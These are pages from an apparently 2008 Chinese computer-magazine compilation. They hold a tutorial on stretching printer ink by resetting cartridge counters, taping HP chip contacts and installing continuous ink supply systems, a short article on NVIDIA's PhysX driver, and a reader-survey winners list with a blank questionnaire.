很多使用打印机的办公室用户都有这样的体会，在打印机没有加装芯片之前，当打印机告诉你墨水用尽后，取下墨盒再次装上后还可以用一段时间，但现在不行了，因为加装了芯片，打印机提示墨水用尽后再次放入墨盒无论如何都无法使用了。虽然，我们知道墨盒里还有墨水。大家这时也许都知道了，是芯片的关系影响了墨盒的继续使用。所以，面对试图节省打印成本的普通百姓，就需要找到一种可以节省墨水的有效方法。

## 1.运行软件

软件开始运行后，首先看到的是这个界面，在第一行选择已安装的打印机型号，第二行选择打印机型号，然后勾选最后一个Enable independent monitor（独立监视器），关闭界面。



## 2.重置计数器

这时，你将会看见这样一个界面，用右键点击通知栏图标并选择Reset counters（重置计数器），你将会看见软件将对多种颜色进行重置，第一项是重置所有色彩，第二项是重置黑色，第三项是重置青色等等，你可以对相应的墨盒进行重置。



## 3.墨水冻结

也许有的打印机无法支持计数器重置，那么可以通过使用Ink freezer（墨水冻结功能），这样就能解决问题了。它的原理是保存现有的墨水数据，必要时即时恢复。你可以看见一个名为Store counters values（保存计数器现值）和名为Restore values back（恢复备份值）的操作，在它的子菜单中你可以看见一个名为Ink freezer的命令，也就是上文提到的墨水冻结来限制芯片的计数功能。



操作完成后，关闭打印机约一分钟，再次打开后便破解成功。

## 三、惠普打印机墨盒芯片破解法

对于惠普一类打印机，因为加入芯片的原因，和一般机型的芯片破解并不一样。下面，我们就以惠普为例，讲讲芯片破解的另一种方法。

-   1.  准备工作：在进行芯片破解之前，我们需要用到剪刀，不干胶，镊子，并要对自身进行静电清除。
    2.  拆开打印机，取下墨盒，用剪刀将不干胶剪成小块，覆盖住读取芯片信息的编号点，在保证墨盒外没有流出的墨水的前提下，将墨盒装回打印机。这时，由于刚才覆盖住了此点，打印机将会出现报错信息，指示灯不停地闪烁。
    3.  待打印机停止工作后，取下墨盒，用不干胶粘住写入芯片信息的触点，将需要灌墨的颜色的触点也一并粘住，并保证没有墨水在墨盒外面，把墨盒放入打印机。
    4.  打印机将再次提醒墨盒错误，确定后取下墨盒，但不要关闭顶盖，拔掉打印机的电源。
    5.  取下刚才粘贴的所有不干胶，并一定要把墨盒外的胶带清理干净，插上电源，等待一段时间后，再次装上墨盒，你将看见墨水信息变成全满。

这个方法可以适用于惠普的多数打印机，大家有兴趣的话可以试试。

## 四、连续供墨法

连续供墨是广大打印用户非常喜爱的省钱的充墨方式之一。连续供墨的价格便宜、使用方便，并且打印质量也毫不逊色。连续供墨的各种品牌的墨水安装程序基本相同，安装过程也十分简单易学。惟一需要的就是细心，不要把墨水滴在墨盒外面就好，否则会损坏打印机的电路。



在进行连续供墨的操作之前，我们需要对连续供墨有一个大致了解。供墨系统是由墨盒、管线、穿管片、永久性芯片、外置盒、墨水以及支架构成的。其中，墨盒和永久性芯片需要较高的技术含量，其他组件虽然不需要什么技术，但也是缺一不可。所以，用户在连续供墨之前需要对所需附件进行购置，并且最好保证它们的质量。第一步：用不同的注射墨水的注射器对外置墨水瓶进行注墨，在注射时注意缓慢用力，切不可出现墨水溢出的情况，但要求把墨水瓶注满。然后对墨盒孔进行封闭处理，每种颜色的墨盒都只留一个注墨孔，其他孔均进行密封。第二步：墨水注射完毕后，将墨盒平放一段时间，使气孔里的墨水流进刚刚加入墨水的小孔。然后，拔掉大胶塞，以空气过滤器取代。第三步：将打印机中原先的墨盒取下，将连供系统中的墨盒装入并盖上墨车盖。同时注意，有些连供墨盒要用专用的墨车盖子。第四步：将墨车推到打印机装墨位置的尽头，把管线调节到最佳长度，然后安装管线支架，并进行固定。第五步：以最合适的走线方式布置管线。因为管线的走向因打印机的不同有多种形式的走向，用户可以通过网络进行查询，也可以通过说明书进行查询。固定管线，可以用管线支架固定，同时可以选择线卡或贴纸进行固定。第六步：检查连续供墨的安装系统。注意要把检查的重点放在管线的固定和墨车的运动上，同时注意检查管线是否安装合适，外墨盒是否与打印机平行，以及外盒的气孔是否打开等。第七步：打印机的墨车需要放在最后面，然后盖上打印机外壳，插入电源后进行打印测试。通电后，注意观察打印机的指示灯以便确定墨盒的芯片被打印机识别，同时检查管线的运动是否正常、喷嘴出墨的线条是否正常等。如果没有问题，安装便大功告成。

因为打印机供墨属于一个巧活，所以在这里，需要提醒用户特别注意几点：首先，在安装供墨系统前，须对打印机进行一个完全的检测，保证打印机工作正常才能安装连供系统，避免安装后造成打印效果不好。其次，连供系统的外置墨盒须和打印机处于同一个水平面上，避免外置墨盒里面的墨水低于喷头，给喷头造成负压，致使墨水无法从喷嘴流出。再次，要正确地安装管线的走向。因为管线安装的好坏不仅关系到打印机的墨车是否能正常工作，同时还会影响外墨盒能否正常供墨。最后，当外置墨盒的墨水用完后，应选择同一款墨水品牌进行添加，否则容易引起喷头的堵塞。长时间不用供墨系统时，应关闭控制管线的气阀，同时塞住通气孔。

## 五、清洁打印机

无论是对废墨仓进行清零处理，还是芯片破解，或者进行连供，稍加不慎，流动的墨水就会趁机跑到墨盒外面，对打印机构成很大的威胁。所以，在给大家介绍完清零、芯片破解、连供等一系列节省成本使用耗材的方法之后，有必要为大家介绍一下如何清洁打印机。

1.  清洁打印机外部的墨水。如果墨水滴仅仅在打印机外部，一定要及时进行清理，确保不要让墨水进入机器内部。首先，我们要关掉打印机，用纸巾把墨水吸干，然后用稍微湿润的纸巾进行擦拭。如果还是无法擦拭掉墨水痕迹，可考虑用清洁剂进行擦拭。在擦拭时注意向同一方向，同时动作不要太大。
2.  清洁打印机内部的墨水。如果墨水不慎进入机器内部，倘若仅仅是滴到输纸轮上，可以先用纸巾进行吸干，然后用几张纸反复进行进纸退纸，以便吸干输纸轮的残余水渍。然而如果水滴不幸滴入电路板，就必须快速关掉电源，然后用纸巾把墨滴吸干，但这样做还不够，因为墨滴中残留的杂质会对电路板的元件有一定影响。所以还需要用纯度较高的酒精进行擦拭。因为酒精不但可以溶解其中的杂质，还可对其余的水分进行挥发。当然，如果墨水仅仅是在电路板上没有走线、元件的部位，用纸巾反复进行吸水处理就可以了。

在清洁的时候，我们也有几点需要注意：首先在清洁中要注意保护好喷嘴，在清理后也可顺便对喷嘴进行清洁。其次，如果打印机在测试中出现了断线，通常情况下是因为墨盒中有了气泡，进行多次清洗便可解决问题。最后，在安装墨盒前注意擦拭墨盒外的墨水。 介绍了这么多，相信你对于喷墨打印机如何省墨一定有了一个了解。那么，就赶快去试试吧，相信对这个可以大量节省耗材费用的技术你会爱不释手的！

# 物理动力发布 ——NVIDIA用户的免费大餐

自从AGEIA在2006年推出物理加速卡之后，这一技术就引起了玩家们极大的关注。不过，现在物理加速功能已经集成在GPU内部了。最近，NVIDIA释放了177.79版驱动+PhysX 8.07.18物理驱动，真正全面支持GeForce 8/9全系列显卡进行物理效果显示加速。众多N饭第一时间进行了试用，结论分为两派：一派言称画面速度均有明显提升，另一派则表明无明显效果，纯属意淫之物。作为拥有N卡的一员，自然不能错过这个新版驱动，实践出真知，究竟效果如何一试便知。

文/阿亮

## 1. 物理加速魅力何在

在DX10次世代游戏中，我们已经亲眼目睹了3D特效的绚丽效果，这完全得益于高版本Shader技术的引入以及HDR特效等。但是，游戏的真实度却提升缓慢。以赛车游戏为例，很多玩家都会感觉汽车碰撞以及与地面摩擦的效果与真实情况相差甚远，这也是导致玩家们无法身临其境的关键原因。同样，足球游戏与射击游戏中的碰撞效果也差强人意，直接令画面整体效果大打折扣。

为了弥补这些缺陷，游戏必须进行复杂的物理计算。譬如汽车相撞、球员倒地滑翔飞铲、子弹射击到墙壁等。在传统模式下，这些计算任务完全交给CPU。但是CPU作为通用处理器，其处理效率非常低，程序员根本无法要求CPU执行大负荷计算，因此3D游戏中的物理效果总是不甚理想。既然CPU无法胜任，那就干脆让GPU代劳。2006年的时候，独立物理加速卡曾经一度风靡欧美市场，只是其高成本注定没有普及化应用的可能性。而随着NVIDIA和AMD在新一代GPU上集成物理加速引擎，购买显卡时又多了一个重要的关键指标。



当年价格不菲的物理加速卡已经被NVIDIA显卡和驱动所替代了

## 2. NVIDIA物理驱动使用方法浅析



NVIDIA显卡支持PhysX物理加速，这在几年前就不是什么新闻了。不过，直到今年8月5日，NVIDIA才第一次发布了驱动，而且8.07.18版PhysX物理驱动独立于Forceware显卡驱动，需要另外安装。但是，这实在非常不便，而善解人意的NVIDIA也很快聆听到用户的抱怨声。于是，仅仅几年之后，NVIDIA给用户带来了新出炉177.83版驱动，此款驱动的文件生成日期为08/02/2008，支持GeForce8/GeForce9/GeForce GTX 200系列显卡。最为重要的是，此款驱动包中集成PhysX 8.08.01版，也就意味着这又是一款全新的物理加速整合驱动，相信在性能表现以及兼容性方面会比之前的8.07.18更上一层楼。

PhysX物理加速的作用是将以往交由CPU计算的任务转接过来，因此其更大的意义在于解放CPU，提高游戏画面中物理计算的真实性。就大多数无法支持PhysX物理加速的游戏来说，安装这款驱动是不会提升性能的。以大家非常熟悉的3DMark Vantage为例，这款测试软件支持PhysX物理加速，此时就能显现出新款驱动的威力。3DMark Vantage CPU TEST2是一个典型的考验CPU物理计算的测试场景。在这一测试画面中，飞机会穿越很多障碍物，并且尾气以及和障碍物、地面的碰撞将会非常多，另外也有可能出现“撞机”等等一系列的事情，这时CPU将会根据他们的物理效果进行计算。PhysX物理加速功能激活之后，3DMark Vantage CPU TEST2的得分可以提高将近5倍，也由此拉高了整体测试得分。

只要游戏支持物理加速，那么在CPU高负荷的情况下，这款驱动就显得价值连城。

## 写在最后：PhysX物理加速前景看好

目前，已经有多款游戏支持PhysX物理加速，包括大家熟悉的《Unreal3》、《铁甲突击》、《Nurien》社交网游、《幽灵行动之尖锋战士》、《生化突击队》等。此外，由于UE3、Gamebryo、Diesel、Vision3D几个超级游戏引擎也都全部支持PhysX，因此未来此类游戏会越来越多。当然，不能简单指望物理加速功能让1000元的显卡瞬间变成2000元档次的显卡，其作用在于降低CPU负担，或许今后游戏玩家的确可以考虑选择中低价位的CPU了，因为显卡变得越发万能。



越来越多的游戏开始支持物理加速，甚至包括网络游戏## 2008年《电脑爱好者》合订本（上）读者有奖调查获奖名单

### ◎幸运奖（1名）
佳能腾彩PIXMA IP4500照片打印1台
何 浩（山东）

### ◎重大建议奖（2名）
驰能智能充电器1套（内含充电器1个，5号充电电池4节）
秦凌雨（河北）
山海峰（湖南）

### ◎优秀建议奖1（10名）
《电脑爱好者15周年纪念光盘》1套
李文涛（江苏）
马 超（辽宁）
徐宇伟（江苏）
凌 硕（黑龙江）
胡道文（北京）
刘皓铧（广东）
李 理（云南）
李 卓（辽宁）
康天虎（河北）
殷海滨（河北）

### ◎优秀建议奖2（10名）
2008《电脑爱好者合订本》（下）1套
胡加纪（江苏）
王 军（天津）
李 铁（山西）
翁 源（广西）
何春璞（辽宁）
金 恺（浙江）
安丰胜（北京）
李鹤华（河南）
李 捷（河北）
伍星衡（广东）

### ◎参与奖（20名）
本社出品图书1本
徐 昕（浙江）
周 雄（江苏）
郭 毅（山东）
李 达（河北）
宝曙光（辽宁）
江 珊（北京）
任晓晖（内蒙）
叶张欣（江苏）
吴旭峰（山西）
王 志（吉林）
周志杰（上海）
甘 肃（陈杰）
李栋梁（山东）
郭 鹏（山西）
孙 阳（河南）
杨晓娟（云南）
王 殿（山东）
李津荣（广东）
黄毓涵（广东）
杨友梅（江西）

## 2008《电脑爱好者合订本》下半年读者有奖调查表

**奖品设置**
- 幸运奖（2名）
  联想8G闪盘1个
- 优秀建议奖（10名）
  2009《电脑爱好者合订本》（上）1套
- 参与奖（20名）
  本社出品图书1本
- 鼓励奖（50名）
  PRAYAYA V3口袋操作系统序列号

本有奖调查问卷请于2009年5月10日前寄达《电脑爱好者》杂志社，即可参加以下奖品的抽奖。

邮寄地址：（100036）北京万寿路翠微中里14号楼4层（北京123信箱）《电脑爱好者》合订本读者调查收
请注明“合订本有奖调查”

## 调查问卷

姓名________________ 性别________ 职业________________ 电子邮件________________
地址________________________________________________________________ 邮政编码________________

1. 你更喜欢哪种合订本？
  A. 定价39，800页双册
  B. 定价29，550页单册
  C. 定价34，680页双册
  D. 其他________________

2. 附录分册的内容是否感觉多了？
  A. 多了
  B. 正好
  C. 少了
  D. 其他________________

3. 附录分册的内容感觉有用的占多少？
  A. 大部分
  B. 一半
  C. 小部分
  D. 其他________________

4. 附录分册更喜欢哪些内容？
  A. 分类的小技巧集萃
  B. 各种电脑问题解答
  C. 热门应用技术专题
  D. 年度的技术产品点评
  E. 五花八门的小技巧
  F. 其他________________

5. 你更喜欢光盘的什么方面内容？
  A. 编辑推荐的软件
  B. 特别版的可免费的软件
  C. 电子书
  D. 《数码》类似的电子合订本
  E. 多媒体教程
  F. 电影
  G. 其他________________

6. 购买了合订本，你之前还买杂志么？
  A. 期期都买或者订阅
  B. 时不时买
  C. 偶尔买
  D. 不买，只买合订本
  E. 其他________________

7. 你每期的合订本都买么？
  A. 每期都买
  B. 时不时买
  C. 偶尔买一下
  D. 借来看
  E. 其他________________

8. 您的其他建议和意见（可另附纸）